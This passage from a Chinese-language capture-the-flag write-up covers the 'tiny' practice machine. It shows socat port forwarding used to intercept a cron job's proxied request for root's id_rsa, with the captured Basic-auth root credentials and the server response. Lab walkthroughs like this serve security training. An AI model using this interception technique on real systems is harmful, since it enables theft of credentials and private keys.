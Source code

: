 果然是定时任务。。。发现传过来的是`id_rsa`，端口转发一下，然后接收：

```bash
(remote) www-data@tiny.hmv:/tmp$ socat -V
socat by Gerhard Rieger and contributors - see www.dest-unreach.org
socat version 1.7.4.4 on 06 Nov 2022 08:15:51
   running on Linux version #1 SMP PREEMPT_DYNAMIC Debian 6.1.37-1 (2023-07-03), release 6.1.0-10-amd64, machine x86_64
features:
  #define WITH_STDIO 1
  #define WITH_FDNUM 1
  #define WITH_FILE 1
  #define WITH_CREAT 1
  #define WITH_GOPEN 1
  #define WITH_TERMIOS 1
  #define WITH_PIPE 1
  #define WITH_UNIX 1
  #define WITH_ABSTRACT_UNIXSOCKET 1
  #define WITH_IP4 1
  #define WITH_IP6 1
  #define WITH_RAWIP 1
  #define WITH_GENERICSOCKET 1
  #define WITH_INTERFACE 1
  #define WITH_TCP 1
  #define WITH_UDP 1
  #define WITH_SCTP 1
  #define WITH_LISTEN 1
  #define WITH_SOCKS4 1
  #define WITH_SOCKS4A 1
  #define WITH_VSOCK 1
  #define WITH_PROXY 1
  #define WITH_SYSTEM 1
  #define WITH_EXEC 1
  #undef WITH_READLINE
  #define WITH_TUN 1
  #define WITH_PTY 1
  #define WITH_OPENSSL 1
  #undef WITH_FIPS
  #define WITH_LIBWRAP 1
  #define WITH_SYCLS 1
  #define WITH_FILAN 1
  #define WITH_RETRY 1
  #define WITH_MSGLEVEL 0 /*debug*/
(remote) www-data@tiny.hmv:/tmp$ socat -v TCP-LISTEN:1111,reuseaddr,fork TCP:127.0.0.1:8000
> 2024/04/09 11:08:02.000033517  length=206 from=0 to=205
GET http://127.0.0.1:8000/id_rsa HTTP/1.1\r
Host: 127.0.0.1:8000\r
Connection: close\r
Via: 1.1 tinyproxy (tinyproxy/1.11.1)\r
Authorization: Basic cm9vdDpRMlg0OXQ0V2pz\r
User-Agent: curl/7.88.1\r
Accept: */*\r
\r
< 2024/04/09 11:08:02.000084086  length=2851 from=0 to=2850
HTTP/1.1 200 OK\r
Server: nginx/1.22.1\r
Date: Tue, 09 Apr 2024 09:08:02 GMT\r
Content-Type: application/octet-stream\r
Content-Length: 2602\r
Last-Modified: Sat, 30 Sep 2023 06:17:50 GMT\r
Connection: close\r
ETag: "6517bd8e-a2a"\r
Accept-Ranges: bytes\r
\r
```